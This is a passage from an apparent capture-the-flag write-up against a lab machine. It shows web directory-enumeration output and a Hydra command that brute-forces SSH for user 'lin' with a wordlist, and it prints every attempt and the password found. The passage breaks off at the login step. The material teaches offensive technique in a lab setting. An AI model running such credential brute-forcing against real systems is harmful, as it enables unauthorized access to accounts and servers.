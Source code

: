 ```
[16:11:12] 403 -  275B  - /.htaccess_sc
[16:11:12] 403 -  275B  - /.htaccessOLD
[16:11:12] 403 -  275B  - /.htaccess.save
[16:11:12] 403 -  275B  - /.htaccess_orig
[16:11:12] 403 -  275B  - /.htaccessBAK
[16:11:12] 403 -  275B  - /.htaccessOLD2
[16:11:12] 403 -  275B  - /.htm
[16:11:12] 403 -  275B  - /.html
[16:11:13] 403 -  275B  - /.httr-oauth
[16:11:13] 403 -  275B  - /.htpasswds
[16:11:13] 403 -  275B  - /.htpasswd_test
[16:13:28] 200 -  455B  - /images/
[16:13:28] 301 -  309B  - /images  ->  http://10.10.67.0/images/
[16:14:16] 403 -  275B  - /server-status/
[16:14:16] 403 -  275B  - /server-status

Task Completed
```
### Nothing much useful

## 4. Let Brute Ssh 
### As we have ```lin``` user and password wordlist so let brute ssh using Hydra
```
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
└─$ hydra -l lin -P locks.txt ssh://10.10.67.0 -V     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-13 16:19:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.67.0:22/
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "rEddrAGON" - 1 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReDdr4g0nSynd!cat3" - 2 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Dr@gOn$yn9icat3" - 3 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3DDr46ONSYndIC@Te" - 4 of 26 [child 3] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReddRA60N" - 5 of 26 [child 4] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3dDrag0nSynd1c4te" - 6 of 26 [child 5] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "dRa6oN5YNDiCATE" - 7 of 26 [child 6] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "ReDDR4g0n5ynDIc4te" - 8 of 26 [child 7] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3Dr4gOn2044" - 9 of 26 [child 8] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "RedDr4gonSynd1cat3" - 10 of 26 [child 9] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "R3dDRaG0Nsynd1c@T3" - 11 of 26 [child 10] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Synd1c4teDr@g0n" - 12 of 26 [child 11] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "reddRAg0N" - 13 of 26 [child 12] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "REddRaG0N5yNdIc47e" - 14 of 26 [child 13] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "Dra6oN$yndIC@t3" - 15 of 26 [child 14] (0/0)
[ATTEMPT] target 10.10.67.0 - login "lin" - pass "4L1mi6H71StHeB357" - 16 of 26 [child 15] (0/0)
[22][ssh] host: 10.10.67.0   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-13 16:19:49
```
### We got The ssh password let Login
```
┌──(death㉿esther)-[~/Lab-CTF/Bugbounty-hunter]
```